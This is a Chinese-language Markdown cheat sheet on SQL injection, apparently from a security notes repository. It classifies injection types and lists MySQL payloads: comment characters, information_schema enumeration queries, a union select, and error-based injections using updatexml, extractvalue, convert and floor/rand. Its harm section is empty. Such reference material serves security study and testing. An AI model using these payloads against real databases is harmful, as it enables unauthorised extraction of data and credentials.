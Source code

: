 # SQL注入攻击概述
## 分类
### 数据类型分类
* 数字型
* 字符型


### 服务器返回分类
* union注入
* 报错注入
* 盲注

## 危害

# 不同数据库注入技巧
## MySQL
### 获取数据
* 注释符

```
#：注释从#符号到行尾
--：注释从--符号到行尾
/* */：注释符号中间
```

* 获取元数据

```
# 查询用户数据库名称
select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA limit 0,1;

# 查询当前表
select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA=(select DATABASE()) limit 0,1;

# 查询表中的字段
select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME="table_name" limit 0,1; 
```

* union查询

```
select username,password from bloodzer0 union select 1,2;
```

* MySQL报错注入

```
# 利用错误信息
select convert((select @@version),signed);

# updatexml函数
select * from bloodzer0 where id=1 and updatexml(1,(concat(0x7c,(select @@user()))),1);

# extractvalue函数
select * from bloodzer0 where id=1 and extractvalue(1,concat(0x7c,(select user())));

# 通过floor函数(也就是常说的双查询注入)
select * from bloodzer0 where id=1 union select * from (select count(*),concat(floor(rand(0)*2),(select user()))a from information_schema.tables group by a)b;
```
